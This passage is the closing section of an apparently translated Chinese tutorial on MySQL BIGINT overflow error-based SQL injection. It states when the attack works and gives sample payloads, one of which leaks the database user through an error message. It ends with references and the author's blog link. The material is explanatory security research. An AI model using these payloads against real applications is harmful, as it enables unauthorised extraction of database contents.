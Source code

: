 ##小结  
请记住下面的内容。为了使攻击成功，mysql_error()必须可以向我们回显错误信息(基于错误的注入攻击)。MySQL的版本要在5.5.5及以上。有许多姿势可以造成溢出注入攻击。举个栗子，将0和某数(如222)进行异或作为减数也可以造成BIGINT OVERFLOW。  

    mysql> select !1-0^222;
    ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '((not(1)) - (0 ^ 222))'
    mysql> select !(select*from(select user())a)-0^222;
    ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '((not((select 'root@localhost'
    from dual))) - (0 ^ 222))'  

##References
[1][http://dev.mysql.com/doc/refman/5.5/en/integer-types.html](http://dev.mysql.com/doc/refman/5.5/en/integer-types.html)
[2][https://dev.mysql.com/doc/refman/5.0/en/numeric-type-overview.html](https://dev.mysql.com/doc/refman/5.0/en/numeric-type-overview.html)
[3][https://dev.mysql.com/doc/refman/5.0/en/mathematical-functions.html](https://dev.mysql.com/doc/refman/5.0/en/mathematical-functions.html)
    
##作者的博客  
[https://osandamalith.wordpress.com/](https://osandamalith.wordpress.com/)